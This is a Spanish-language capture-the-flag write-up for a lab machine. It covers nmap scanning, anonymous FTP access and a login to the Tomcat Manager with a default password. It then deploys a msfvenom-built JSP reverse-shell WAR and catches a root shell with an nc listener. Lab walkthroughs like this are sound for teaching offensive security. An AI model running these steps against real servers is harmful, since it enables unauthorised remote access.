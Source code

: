 
# -Pn

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

Como tenemos abierto los puertos 21 y 8080, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,8080 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21,8080`: Escaneo de los puertos 21 (FTP) y 8080 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```bash
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
Vemos que tenemos el usuario Anonymous en el ftp abierto, así que vamos a conectarnos.
```bash
ftp 172.17.0.2
```
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15473|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```
Encontrammos un archivo **tomcat.txt**, lo descargamos a nuestra máquina y revisamos que información contiene.
```bash
get tomcat.txt
```
```
tp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||38522|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |***********************************************************************************************************************************************************************************************|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (227.25 KiB/s)
ftp> exit
221 Goodbye.
❯ cat tomcat.txt
Hello tomcat, can you configure the tomcat server? I lost the password...
```
Es un mensaje al usuario **tomcat** así que ya solo faltaría encontrar el password. Vamos a ver el puerto 8080 que tenemos.

## Explotación.
Pinchamos en el botón **Manager APP**. Probamos una de las contraseñas quet tiene tomcat por defecto para el usuario **tomcat** y estamos dentro del panel.
```
tomcat:s3cr3t
```
En la página vemos la opciones y vamos hasta **WAR file to deploy** y desde ahí podemos subir un archivo malicioso con una reverse shell creada con msfvenom.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
```
Una vez creado, nos aparece un listado de archivos y rutas. Nos ponemos en escucha por el puerto 443.
```bash
nc -lvnp 443
```
Hacemos click en el archivo **revshell** que hemos subido y establecemos una reverse shell con la máquina victima con privilegios de root.
```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59678
whoami
root
```
